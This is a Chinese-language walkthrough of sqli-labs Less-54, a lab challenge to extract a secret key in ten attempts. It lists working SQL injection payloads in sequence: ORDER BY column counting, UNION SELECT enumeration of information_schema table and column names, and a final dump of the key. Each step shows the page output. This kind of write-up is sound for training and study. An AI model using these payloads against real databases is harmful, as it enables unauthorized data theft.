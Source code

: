 ```yaml
---
title: less54
url: https://www.yuque.com/u29002979/ep2zrx/qepapqzkte110ltf
---
```


```bash
$sql="SELECT * FROM security.users WHERE id='$id' LIMIT 0,1";
```

> Please input the ID as parameter with numeric value as done in Lab excercises
> 请输入ID作为参数，数值与实验室练习相同
>
> The objective of this challenge is to dump the (secret key) from only random table from Database ('CHALLENGES') in Less than 10 attempts
> 这个挑战的目标是在不到10次的尝试中从数据库（“CHALLENGES”）中仅转储随机表中的（密钥）
>
> For fun, with every reset, the challenge spawns random table name, column name, table data. Keeping it fresh at all times.
> 有趣的是，每次重置时，挑战都会产生随机的表名、列名和表数据。随时保持新鲜。

<a name="naIEd"></a>

# 判断字段数，

用去两次机会

`?id=1' order by 4--+`

> You have made : 1 of 10 attempts
> 您已进行了：10次尝试中的1次

`?id=1' order by 3--+`

> You have made : 2 of 10 attempts
> Your Login name:Dumb
> Your Password:Dumb

直接省略信息收集，数据库猜解阶段， <a name="DK0D3"></a>

## 直接开始爆破数据表名称

`?id=-1' union select 1,2,group_concat(table_name)from information_schema.tables where table_schema=database()--+`

> You have made : 3 of 10 attempts
> Your Login name:2
> Your Password:aqzhac4it5

数据表名：aqzhac4it5 <a name="Jpz4K"></a>

# 破数据字段名称

`?id=-1' union select 1,2,group_concat(column_name)from information_schema.columns where table_name='aqzhac4it5'--+`

> You have made : 4 of 10 attempts
> Your Login name:2
> Your Password:id,sessid,secret\_9EA8,tryy

数据字段：secret\_9EA8 <a name="psE1z"></a>

# 最后找通关密码

`?id=-1' union select 1,2,(select secret_9EA8  from aqzhac4it5 )--+`

> You have made : 5 of 10 attempts
> Your Login name:2
> Your Password:FEC1PsNRKY3v1kumLxMCgYNa

通关密码：FEC1PsNRKY3v1kumLxMCgYNa

